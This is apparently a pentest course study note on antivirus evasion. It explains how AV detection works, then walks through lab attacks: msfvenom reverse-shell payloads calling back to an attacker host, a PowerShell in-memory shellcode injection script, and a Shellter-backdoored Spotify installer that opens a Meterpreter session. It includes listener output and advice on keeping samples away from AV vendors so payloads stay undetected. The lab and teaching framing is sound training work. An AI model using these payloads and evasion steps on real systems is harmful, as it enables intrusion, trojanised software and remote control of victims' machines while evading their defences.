










# AV Evasion Fundamentals

## AV Software Key Components and Operations

### Known vs. Unknown Threats

In its original design, an AV software bases its operation and decisions on signatures. The goal of a signature is to uniquely identify a specific piece of malware. Signatures can vary in terms of type and characteristics that can span from a very generic file hash summary to a more specific binary sequence match. An AV comprises different engines responsible for detecting and analyzing specific components of the running system.

A signature language is often defined for each AV engine and thus, a signature can represent different aspects of a piece of malware, depending on the AV engine. For example: two signatures can be developed to contrast the exact same type of malware: one to target the malware file on disk and another to detect its network communication. The semantics of the two signatures can vary drastically as they are intended for two different AV engines.

As signatures are written based on known threats, AV products could initially only detect and react based on malware that has already been vetted and documented. However, modern AV solutions, including Windows Defender, are shipped with a Machine Learning engine that is queried whenever an unknown file is discovered on a system. These ML engines can detect unknown threats. Since ML engines operate on the cloud, they require an active connection to the internet, which is often not an option on internal enterprise servers. Moreover, the many engines that constitute an AV should not borror too many computing resources from the rest of the system as it could impact the system's usability.

To overcome these AV limitations, Endpoint Detection and Response solutions have evolved during recent years. EDR software is responsible for generating security-event telemetry and forwarding it to a Security Information and Event Management system, which collects data from every company host. These events are then rendered by the SIEM so that the security analyst team can gain a full overview of any past or ongoing attack affecting the organization.

Even though some EDR solutions include AV components, AVs and EDRs are not mutually exclusive as they complement each other with enhanced visibility and detection. Ultimately, their deployment should be evaluated based on an organization's internal network design and current security posture.

### AV Engines and Components

At its core, a modern AV is fueled by signature updates fetched from the vendor's signature database that resides on the internet. Those signature definitions are stored in the local AV signature database, which in turn feeds the more specific engines.

A modern AV is typically designed around the following components:

- **File Engine**: is responsible for both scheduled and real-time file scans. When the engine performs a scheduled scan, it simply parses the entire file system and sends each file's metadata or data to the signature engine. On the contrary, real-time scans involve detecting and possibly reacting to any new file action, such as downloading new malware from a website. To detect such operations, the real-time scanners need to identify events at the kernel level via a specially crafted [mini-filter driver](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/filter-manager-concepts). This is the reason why a modern AV needs to operate both in kernel and user land, in order to validate the entire OS scope.
- **Memory Engine**: inspects each process's memory space at runtime for well-known binary signatures or suspicious API calls that might result in memory injection attacks.
- **Network Engine**: inspects the incoming and outgoing network traffic on the local network interface. Once a signature is matched, a network engine might attempt to block the malware from communicating with its C2.
- **Disassembling/Emulator/Sandbox**: To further hinder detection, malware often employs encryption and decryption through custom routines to conceal its true nature. AVs counterattack this strategy by disassembling the malware packers or ciphers and loading the malware into a sandbox, or emulator.
	- **Disassembler Engine**: is responsible for translating machine code into assembly language, reconstructing the original program code section, and identifying any encoding/decoding routine.
	- **Sandbox**: is a special isolated environment in the AV software where malware can be safely loaded and executed without causing potential havoc to the system.
	- **Emulator**: Once the malware is unpacked/decoded and running in the emulator, it can be thoroughly analyzed against any known signature.

### Detection Methods

**Signature-based** AV detection is mostly considered a restricted list technology. In other words, the filesystem is scanned for known malware signatures and if any are detected, the offending files are quarantined.

A signature can be just as simple as the hash of the file itself or a set of multiple patterns, such as specific binary values and strings that should belong only to that specific malware.

Relying on just the file hash as the only detection mechanism is a weak strategy because changing a single bit from the file would result in a completely different hash.

As an example, you created a text file that contains the string "offsec". Dump its binary representation via the `xxd` tool by passing the `-b` argument before the file name.

```bash
kali@kali:~$ xxd -b malware.txt
00000000: 01101111 01100110 01100110 01110011 01100101 01100011  offsec
00000006: 00001010 
```

The output shows the binary offset on the leftmost column, the actual binary representation in the middle column, and the ASCII translation on the rightmost one.

Now, assuming this is real malware, you want to calculate the hash of the file, and you can do so through the `sha256sum` utility.

```bash
kali@kali:~$ sha256sum malware.txt
c361ec96c8f2ffd45e8a990c41cfba4e8a53a09e97c40598a0ba2383ff63510e  malware.txt
```

Now replace the last letter of the "offsec" string with a capital "C" and dump its binary value via `xxd` once more.

```bash
kali@kali:~$ xxd -b malware.txt
00000000: 01101111 01100110 01100110 01110011 01100101 01000011  offseC
00000006: 00001010
```

Since every hashing algorithm is supposed to produce a totally different hash even if only one bit has changed, calculate the SHA256 hash on the modified string.

```bash
kali@kali:~$ sha256sum malware.txt
15d0fa07f0db56f27bcc8a784c1f76a8bf1074b3ae697cf12acf73742a0cc37c  malware.txt
```

**Heuristic-Based Detection** is a detection method that relies on various rules and algorithms to determine if an action is considered malicious. This is often achieved by stepping through the instruction set of a binary file or by attempting to disassemble the machine code and ultimately decompile and analyze the source code to obtain a more comprehensive map of the program. The idea is to search for various patterns and program calls that are considered malicious.

Alternatively, **Behavior-Based Detection** dynamically analyzes the behavior of a binary file. This is often achieved by executing the file in question in an emulated environment, such as a small virtual machine, or sandbox, and searching for behaviors or actions that are considered malicious.

Lastly, **ML Detection** aims to up the game by introducing ML algorithms to detect unknown threats by collecting and analyzing additional metadata. For instance, Microsoft Windows Defender has two ML components: the client ML engine, which is responsible for creating ML models and heuristics, and the cloud ML engine, which is capable of analyzing the submitted sample against a metadata-based model comprised of all the submitted samples. Whenever the client ML engine is unable to determine whether a program is benign or not, it will query the cloud ML counterpart for a final response.

Since these techniques do not require malware signatures, they can be used to identify unknown malware, or variations of known malware, more effectively. Given that AV manufacturers use different implementations when it comes to heuristics, behavior, and machine learning detection, each AV product will differ in terms of what code is considered malicious.

AV developers use a combination of these detection methods to achieve higher detection rates.

To demonstrate the effectiveness of various AV products, you will start by scanning a popular Metasploit payload.

Generate the test binary payload by running the `msfvenom` command followed by the `-p` argument specifying the payload. You'll then pass the reverse shell local host and local port arguments along with the EXE file format and redirect the output to a file named binary.exe.

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Next, run a virus scan on this executable. You can upload the file to VirusTotal.

After the upload and analysis of the file is done, you notice that many AV products determined your file is malicious based on the different detection mechanisms.

## Bypassing AV Detections

### On-Disk Evasion

Modern on-disk malware obfuscation can take many forms. One of the earliest ways of avoiding detection involved the use of **packers**. Given the high cost of disk space and slow network speeds during the early days of the internet, packers were originally designed to reduce the size of an executable. Unlike modern "zip" compression techniques, packers generate an executable that is not only smaller but is also functionally equivalent with a completely new binary structure. The file produced has a new hash signature and as a result, can effectively bypass older and more simplistic AV scanners. Even though some modern malware uses a variation of this technique, the use of UPX and other popular packers alone is not sufficient to evade modern AV scanners.

**Obfuscators** reorganize and mutate code in a way that makes it more difficult to reverse-engineer. This includes replacing instructions with semantically equivalent ones, inserting irrelevant instructions or dead code, splitting or reordering functions, and so on. Although primarily used by software developers to protect their intellectual property, this technique is also marginally effective against signature-based AV detection. Modern obfuscators also have runtime in-memory capabilities, which aims to hinder AV detection even further.

**Crypter** software cryptographically alters executable code, adding a decryption stub that restores the original code upon execution. This decryption happens in-memory, leaving only the encrypted code on-disk. Encryption has become foundational in modern malware as one of the most effective AV evasion techniques.

Highly effective AV evasion requires a combination of all the previous techniques in addition to other advanced ones, including anti-reversing, anti-debugging, virtual machine emulation detection, and so on. In most cases, software protectors were designed for legitimate purposes, like anti-copy, but can also be used to bypass AV detection.

### In-Memory Evasion

In-Memory injections, also known as PE Injection, is a popular technique used to bypass AV products on Windows machines. Rather than obfuscating a malicious binary, creating new sections, or changing existing permissions, this technique instead focuses on the manipulation of volatile memory. One of the main benefits of this technique is that it does not writy any files to disk, which is a commonly focused area for most AV products.

There are several [evasion techniques](https://blog.f-secure.com/memory-injection-like-a-boss/) that do not write files to disk.

The first technique, **Remote Process Memory Injection**, attempts to inject the payload into another valid PE that is not malicious. The most common method of doing this is by leveraging a set of Windows APIs. First, you would use the OpenProcess function to obtain a valid HANDLE to a target process that you have permission to access. After obtaining the HANDLE, you would allocate memory in the context of that process by calling a Windows API such as VirtualAllocEx. Once the memory has been allocated in the remote process, you would copy the malicious payload to the newly allocated memory using WriteProcessMemory. After the payload has been successfully copied, it is usually executed in memory with a separate thread using the CreateRemoteThread API.

Unlike regular DLL injection, which involves loading a malicious DLL from disk using the LoadLibrary API, the **Reflective DLL Injection** technique attempts to load a DLL stored by the attacker in the process memory. The main challenge of implementing this technique is that LoadLibrary does not support loading a DLL from memory. Furthermore, the Windows OS does not expose any APIs that can handle this either. Attackers who choose to use this technique must write their own version of the API that does not rely on a disk-based DLL.

The third technique is **Process Hollowing**. When using process hollowing to bypass AV software, attackers first launch a non-malicious process in a suspended state. Once launched, the image of the process is removed from memory and replaced with a malicious executable image. Finally, the process is then resumed, and malicious code is executed instead of the legitimate process.

Ultimately, **Inline Hooking**, involves modifying memory and introducing a hook (_an instruction that redirects the code execution_) into a function to make it point to your malicious code. Upon executing your malicious code, the flow will return to the modified function and resume execution, appearing as if only the original code had executed.

> [!INFO]
> Hooking is a technique often employed by rootkits, a stealthier kind of malware. Rootkits aim to provide the malware author dedicated and persistent access to the target system through modification of system components in user space, kernel, or even at lower OS protection rings such as boot or hypervisor. Since rootkits need administrative privileges to implant its hooks, it is often installed from an elevated shell or by exploiting a privesc vuln.

## AV Evasion in Practice

### Testing for AV Evasion

The term SecOps defines the collaboration between the enterprise IT department and the SOC. The goal of the SecOps team is to provide continuous protection and detection against both well-known and novel threats.

As pentesters, you want to develop a realistic understanding of the considerations facing SecOps teams when dealing with AV products. For this reason, you should start considering a few extra implications regarding AV evasion development that could help you on your engagements.

As an initial example, VirusTotal can give you a good glimpse of how stealthy your malware could be, once scanned, the platform sends your sample to every AV vendor that has an active membership.

This means shortly after you have submitted your sample, most of the AV vendors will be able to run it inside their custom sandbox and machine learning engines to build specific detection signatures, thus regarding your offensive tooling unusable.

As an alternative to VirusTotal, you should resort to [Kleenscan.com](https://kleenscan.com/). This service scans your sample against 30 different AV engines and claims to not divulge any submitted sample to third parties. The service offers up to four scans a day and additional ones at a small fee after the daily limit has been reached.

However, relying on tools such as Kleenscan.com is considered a last resort when you don't know the specifics of your target's AV vendor. If you do know those specifics on the other hand, you should build a dedicated VM that resembles the customer environment as closely as possibe.

Regardless of the tested AV product, you should always make sure to disable sample submission so that you don't incur the same drawback as VirusTotal. For instance, Windows Defender's Automatic Sample Submission can be disabled by navigating to Windows Security > Virus & threat protection > Manage Settins and deselecting the relative option as illustrated below.



Having such a simulated target scenario allows you to freely test AV evasion vectors without worrying about your sample being submitte for further analysis.

Since automatic sample submission allows Windows Defender to get your sample analyzed by its machine learning cloud engines, you should only enable it once you are confident your bypasses will be effective and only if your target has sample submission enabled.

Another rule of thumb you should follow when developing AV bypasses is to always prefer custom code. AV signatures are extrapolated from the malware sample and thus, the more novel and diversified your code is, the fewer chances you must incur any existing detection.

### Evading AV with Threat Injection

Finding a universal solution to bypass all AV products is difficult and time consuming, if not impossible. Considering time limitations during a typical pentest, it is far more efficient to target the specific AV product deployed in the target network.

In this example, you will interact with Avira Free Security version 1.1.68.29553 on your Windows 11 client. Once on your machine, you can navigate to the Security panel from the left menu and click on Protection Options:


As a first step when testing AV products, you should verify that the AV is working as intended. You will use the msfvenom payload you generated earlier an scan it with Avira.

After transferring the malicious PE to your Windows client, you are almost immediately warned about the malicious content of the uploaded file. In this case, you are presented with an error message indicating that your file has been blocked.




Avira displays a popup notification informing you that the file was flagged as malicious and quarantined.

Depending on how restricted your target environment is, you might be able to bypass AV products with the help of PowerShell.

#### Example: Remote Process Memory Injection

A very powerful feature of PowerShell is its ability to interact with the Windows API. This allows you to implement the in-memory injection process in a PowerShell script. One of the main benefits of executing a script rather than a PE is that it is difficult for AV manufacturers to determine if the script is malicious as it's run inside an interpreter and the script itself isn't executable code. Nevertheless, please keep in mind that some AV products handle malicious script detection with more success than others.

Furthermore, even if the script is marked as malicious, it can easily bin altered. AV software will often review variable names, commens, and logic, all of which can be changed without the need of recompile anything.

To demonstrate an introductory AV bypass, you are going to first analyze a well-known version of the memory injection PowerShell script and then test it against Avira.

A basic template script that performs in-memory injection is shown below:

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

<place shellcode here>
```

The script starts by importing VirtualAlloc and CreateThread from kernel32.dll as well as memset from msvcrt.dll. These functions will allow you to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively. You will allocate the memory and execute a new thread in the current process, rather than a remote one.

Your payload is missing from your script, but you can generate it using msfvenom with the format PowerShell reflection.

PowerShell reflection script begins by allocating unmanaged memory, then decodes the base64-encoded shellcode and transfers it into that memory. Afterwards, it builds a dynamic assembly that includes a method designed to run the injected payload.

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of psh-reflection file: 2960 bytes
...
function xf {
        Param ($nfCl, $vf)
        $uaQP = ([AppDomain]...
...
```

Now that you have generated shellcode, you can replace `<place shellcode here>` with the PowerShell output.

Your complete script resembles the following:

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

function xf {
        Param ($nfCl, $vf)
        $uaQP = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $uaQP.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($uaQP.GetMethod('GetModuleHandle')).Invoke($null, @($nfCl)))), $vf))
}

function xb {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $jGN_b,
                [Parameter(Position = 1)] [Type] $hh = [Void]
        )
...
```

> [!INFO]
> Use [this](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py) to turn a PowerShell-script into a one-liner.

AV vendors often rely on static string signatures related to meaningful code portions, such as variables or function names, to catch malicious scripts. To bypass this detection logic, your generated payload with the format psh-reflection already has randomly generated variable and function names. These names will be different every time you generate a payload with psh-reflection.

Scripts are just interpreted text files. They are not easily fingerprinted like binary files, which have a more structured data format.

Next, you are going to verify the detection rate of your PowerShell script using VirusTotal.



According to the result of the VirusTotal scan, 25 of the 63 AV products flagged your script as malicious. Avira did not flag your payload.

Once you save the PowerShell script as bypass.ps1 and transfer it over the target Windows client 11, you can run a Quick Scan to verify that your attack vector is undetected. To run the scan, you'll click on the Security option on the left-hand menu, select Virus Scans, and then click on Scan under the Quick Scan option.

Once Avira has scanned your script on your Windows 11 machine, it indicates your script is not malicious.



Since the msfvenom payload is for x86, you are going to launch the x86 version of PowerShell, named `Windows PowerShell (x86)`:



Run `bypass.ps1` and analyze the output.

```
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

Unfortunately, when you attempt to run your malicious script, you are presented with an error that references the Execution Policies of your system, which appear to prevent your script from running.

To change the policy globally: you are going to retrieve the current execution policy via the `Get-ExecutionPolicy -Scope CurrentUser` command and then set it to `Unrestricted`via the `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser` command. You need `-Scope CurrentUser` to specify that you are setting the execution policy for the current user.

```
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined

PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```

The listing above shows that you have successfully changed the policy for your current user to `Unrestricted`.

Before executing your script, you will start a Netcat listener to interact with your shell.

```bash
kali@kali:~$ nc -lvnp 443
listening on [any] 443 ...
```

Now you will try to launch the PowerShell script:

```
PS C:\Users\offsec\Desktop> .\bypass.ps1

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     True     Byte[]                                   System.Array
124059648
124059649
...
```

The script executes without any problems, and you receive a revshell on your attack machine.

```bash
kali@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```

This means you have effectively evaded Avira detection on your target.

#### Automating the Process

[Shellter](https://www.shellterproject.com/) is a dynamic shellcode injection tool capable of bypassing AV software. It uses several novel and advanced techniques to backdoor a valid and non-malicious executable file with a malicious shellcode payload.

Shellter attempts to use the existing PE [Import Address Table](https://en.wikipedia.org/wiki/Portable_Executable#Import_Table) entries to locate functions that will be used for the memory allocation, transfer, and execution of your payload.

Installing it:

```bash
kali@kali:~$ apt-cache search shellter
shellter - Dynamic shellcode injection tool and dynamic PE infector

kali@kali:~$ sudo apt install shellter
...
```

Since Shellter is designed to run on Windows OS, you also need to install wine.

```bash
kali@kali:~$ sudo apt install wine
...

kali@kali:~$ sudo dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```

If you are using an ARM processor, you need a slightly different set of commands.

```bash
kali@kali:~$ sudo apt install wine

kali@kali:~$ sudo dpkg --add-architecture amd64

kali@kali:~$ sudo  apt install -y qemu-user-static binfmt-support

kali@kali:~$ sudo apt-get update && apt-get install wine32
```

Once everything is installed, running the `shellter` command will provide you with a new console running under wine.



Shellter can run in either Auto or Manual mode. In Manual mode, the tool will launch the PE you want to use for injection and allow you to manipulate it on a more granular level. You can use this mode to highly customize the injection process in case the automatically selected option fails.

Run Shellter in Auto mode and select a target PE. Shellter will analyze and alter the execution flow to inject and execute your payload.

For this example, to start, you'll need to tell Shellter the Spotify installer location. Before analyzing and altering the original PE in any way, Shellter will first create a backup of the file.



As soon as Shellter finds a suitable place to inject your payload, it will ask you if you want to enable Stealth Mode, which will attempt to restore the execution flow of the PE after your payload has been executed. Enable Stealth Mode as you would like the Spotify installer to behave normally to avoid any suspicion.

At this point, you are presented with the list of available payloads. These include popular selections such as Meterpreter, but Shellter also supports custom payloads.



Note that to restore the execution flow through the Stealth Mode option, custom payloads need to terminate by exiting the current thread.

After some testing, it seems that any non-Meterpreter payload fails to be executed correctly under Windows 11 and thus, you'll need to resort to Meterpreter-based payloads.

To test Shellter's bypass capabilities, you will use the Meterpreter version of the reverse shell payload that Avira detected at the beginning. After submitting `L` for listed payloads, you'll select the first payload. You are then presented with the default options from Metasploit, such as the reverse shell host and port.

With all parameters set, Shellter will inject the payload into the Spotify installer and attempt to reach the first instruction of the payload.



Now that the test has succeeded, before transferring over the malicious PE file to your Windows client, you will configure a listener to interact with the Meterpreter payload.

```bash
kali@kali:~$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
```

Next, you will transfer the backdoored Spotify installer over to the target Windows 11 client and launch an Avira Quick Scan.



Avira's Quick Scan performs a check inside every user's common folder, including the Desktop folder.

Since Shellter obfuscates both the payload as well as the payload decoder before injecting them into the PE, Avira's signature-based scan runs cleanly. It does not consider the binary malicious.

Once you execute the file, you are presented with the default Spotify installation window, which under normal circumstances will download the Spotify package over the internet.

Reviewing your multi/handler window, it shows that you successfully received a Meterpreter Shell.

```bash
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
[*] Sending stage (175174 bytes) to 192.168.50.62
[*] Meterpreter session 1 opened (192.168.50.1:443 -> 192.168.50.62:52273)...

meterpreter > shell
Process 6832 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.739]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec\Desktop>whoami
whoami
client01\offsec
```

You've launched an interactive Windows shell session and verified that you landed on the target machine as the offsec user.